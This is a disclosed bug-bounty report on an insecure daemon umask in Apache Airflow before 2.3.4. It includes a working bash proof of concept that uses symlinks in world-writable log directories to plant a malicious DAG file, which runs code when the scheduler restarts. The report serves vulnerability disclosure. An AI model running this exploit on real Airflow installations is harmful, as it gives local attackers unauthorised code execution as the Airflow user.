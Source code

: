 # Airflow Daemon Mode Insecure Umask Privilege Escalation

## Report Details
- **Report ID**: 1690093
- **URL**: https://hackerone.com/reports/1690093
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-02T22:36:31.551Z
- **Disclosed**: 2022-09-17T12:23:18.068Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Apache Airflow prior to 2.3.4 had multiple components with an insecure daemon umask of 0, resulting in critical files and directories to be world writable. As such, any local user can infer Airflow to process specially crafted input and ultimately perform a privilege escalation to user executing Airflow. In particular the scheduler component is exploitable.

This is CWE-277: Insecure Inherited Permissions

The vulnerability and fix was announced as https://www.openwall.com/lists/oss-security/2022/09/02/3

# Proof of concept

The following attack works against the demo installation of Apache Airflow (when `airflow scheduler` is run with the `--daemon` flag):
```
#!/bin/bash
TARGET=/home/airflow
umask 0
cd $TARGET/logs/scheduler/latest/native_dags/example_dags
rm example_bash_operator.py.log
ln -s $TARGET/dags/poc.py example_bash_operator.py.log
until [ -f $TARGET/dags/poc.py ]
do
  sleep 1
done
rm example_bash_operator.py.log
(cat <<'EOF'
import os
os.system("id >>/tmp/pwned")
from airflow import DAG
EOF
) > $TARGET/dags/poc.py
```
The injected DAG payload (code execution) is triggered when the Airflow scheduler is restarted. This simple PoC performs a full arbitrary code execution, but other means of gaining control via custom DAGs exist as well.

## Impact

Privilege escalation: loss of confidentiality, integrity and availability

## Attachments
No attachments
